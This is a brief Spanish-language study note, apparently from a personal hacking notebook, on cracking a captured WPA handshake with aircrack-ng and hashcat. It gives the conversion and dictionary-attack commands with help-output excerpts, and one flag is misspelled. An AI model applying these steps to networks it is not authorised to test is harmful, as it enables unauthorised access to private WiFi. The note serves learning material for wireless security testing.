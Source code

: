 # Fuerza bruta con HashCat

Al capturar el handshake con aircrack-ng podemos aplicar una fuerza bruta a este con [[Ciberseguidad/Conceptos/Hacking Wifi/Herramientas/HashCat | HashCat]] 
para obtener el password del AC 

Primero debemos de pasar la captura ah un tipo de archivo legible para que lo comprensa hashcat

	aircrack-ng -j CapturaHCCAPX CapturaDeAuth-01.cap

Con el parametro *-j* y el nombre del nuevo archivo.

	hashcat -m 2500 -d 0 CapturaHCCAPX dicc.txt --outfile=password.txt --potile-disable

-m *Indicamos el tipo de hash, en este caso es un hash WPA*

``` bash
❯ hashcat --help | grep 2500
  25000 | SNMPv3 HMAC-MD5-96/HMAC-SHA1-96                     | Network Protocol
   2500 | WPA-EAPOL-PBKDF2                                    | Network Protocol
  12500 | RAR3-hp                                             | Archive
  22500 | MultiBit Classic .key (MD5)                         | Cryptocurrency Wallet
```

-d 0 *Indicamos el tipo dispositivo con el queremos trabajar (CPU)*
``` bash
- [ OpenCL Device Types ] -

  # | Device Type
 ===+=============
  1 | CPU
  2 | GPU
  3 | FPGA, DSP, Co-Processor
```

--outfile=password.txt *Archivo donde se guardara el resultado*
--potile-disable *Do not write potfile  

